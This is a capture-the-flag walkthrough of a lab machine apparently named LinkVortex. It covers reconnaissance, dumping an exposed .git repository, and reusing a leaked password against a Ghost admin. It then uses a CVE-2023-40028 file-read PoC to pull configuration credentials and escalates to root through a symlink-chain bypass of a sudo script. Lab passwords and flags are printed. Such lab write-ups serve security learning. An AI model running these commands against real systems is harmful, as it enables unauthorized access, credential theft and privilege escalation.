Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.47
```



There are open ports `22` and `80` and we see that the site is running on `Ghost 5.58`. Let's go to the site


Since this site is running on `Ghost`, let's try to find the authorization form. Let's go to `http://linkvortex.htb/ghost`


If we enter, for example, `jamie@linkvortex.htb` and click `Forgot?`, we will get the conclusion that such a user does not exist. Let's try `admin@linkvortex.htb` and see that there is no longer such an error, but now there is another one: `Failed to send email. Reason: getaddrinfo EAI_AGAIN linkvortex.htb`



<div style="page-break-after: always;"></div>

Let's try to find subdomains
```bash
ffuf -u http://linkvortex.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host:FUZZ.linkvortex.htb" -mc 200
```




Since this is the dev part of the site, let's try to find the `.git` directory



Let's use the `GitHack` tool to download this project
```bash
python GitHack.py http://dev.linkvortex.htb/.git/
```






There is only one directory `test`, in which there are other directories, in which there is only one file `authentication.text.js`. Of interest in it are the following lines:
```authentication.text.js
const email = 'test@example.com';
const password = 'OctopiFociPilfer45';
email: 'test-leo@example.com'
password: 'thisissupersafe'
email: 'test-edit@example.com'
password: 'thisissupersafe'
email: 'not-invited@example.org'
password: 'lel123456'
```
There is also a file `Dockerfile.ghost`



There is an interesting file path here: `/var/lib/ghost/config.production.json`.
Since we already know about the existence of the user `admin@linkvortex.htb`, let's try to log in under it using one of the known passwords


<div style="page-break-after: always;"></div>

The following data came up:
```Email
admin@linkvortex.htb
```
```Password
OctopiFociPilfer45
```
The site found `Staff access token (Give apps personal access without sharing your email/password.)`
```token
661253480a2b51000176c33c:56f8b1dd7123ce287c6bfeb91647f2b84c16a1d5e5751a725c8a04960d89408e
```
Since the version of `Ghost` is known and the admin data is available, we will find `PoC` and use [it](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)
```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
```



Also, let's look at the contents of the file `/var/lib/ghost/config.production.json`




>[!info] Note
>If you don't know the exact location of the `config.production.json` file, you can display it like this: `/proc/self/cwd/config.production.json`.
>
>`/proc/self/cwd/` is a symbolic link in the virtual file system **`/proc`** on Linux, which points to the **current working directory** of the process accessing it.

There is a user
```User
bob@linkvortex.htb
```
```Password
fibber-talented-worth
```
Let's try to connect to it via SSH



The first flag is
```flag
ed7fae4c3f34bf1b36dc7c12bd35c9a7
```
<div style="page-break-after: always;"></div>

Let's see what `sudo` commands the user can execute. It can execute a script that has the following content:
```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```



The gist of the script is that it **checks and processes symbolic links to PNG files** to prevent access to critical system directories (`/etc`, `/root`). Here are the key steps:
1. **Argument check**:
The script only accepts files with the `.png` extension as an argument. If it is not a PNG, it exits with an error.
2. **File type check**:
Using `sudo /usr/bin/test -L`, it checks whether the argument is a symbolic link.
3. **Analyze the link target**:
If the link target contains `etc` or `root` paths (e.g. `/etc/passwd` or `/root/secret`), the link is **removed** to protect critical data.
4. **Quarantine for safe links**:
If the link does not point to `etc` or `root`, it is moved to `/var/quarantined`.
If the environment variable `CHECK_CONTENT=true`, the script **outputs the contents of the file** referenced by the PNG (even if it is a chain of several links).
Vulnerability: The script only checks the **direct target of the link**, but not the final file. This allows bypassing protection via a chain of links (for example: `malicious.png → file.txt → /root/password`)
In the home directory, there are files `root.txt` and `hyn.txt`. Let's use them to read the `root.txt` file:
```bash
ln -s /root/root.txt hyh.txt
ln -s /home/bob/hyh.txt hyh.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```



```flag
19be5ce19764bfa3a546efb916b269e9
```
## Explanation
1. **Creating a chain of symbolic links:**
- `hyh.txt` → symbolic link to `/root/root.txt`.
- `hyh.png` → symbolic link to `hyh.txt`.
- Goal: bypass script check for `/etc` or `/root` in path.
2. **Running script with `CHECK_CONTENT=true`:**
```bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```
- Script checks only **first link** (`hyh.png` → `hyh.txt`), where path `hyh.txt` does not contain `/etc` or `/root`.
- `grep -Eq '(etc|root)'` check does not analyze **target file** (`/root/root.txt`), only **immediate link target**.
3. **Moving a link to quarantine and displaying its contents:**
- The script moves `hyh.png` to `/var/quarantined/`.
- If `CHECK_CONTENT=true`, it reads the contents of the file the link points to **after moving**:
- `hyh.png` → `hyh.txt` → `/root/root.txt`.
- Thus, the contents of the protected file `/root/root.txt` are displayed.
**Why it works:**
- The vulnerability of the script is that it checks the **direct target of the link**, not the **destination file**.
- The chain of links masks access to `/root/root.txt`, making the path "invisible" to the `grep -Eq '(etc|root)'` filter.

> [!info] Note
> **A symbolic link** (symlink) is a special file in the file system that **points to another file or directory**. It is similar to a "shortcut" in Windows. You can read more [[Symbolic links (symlinks) in Linux|here]].
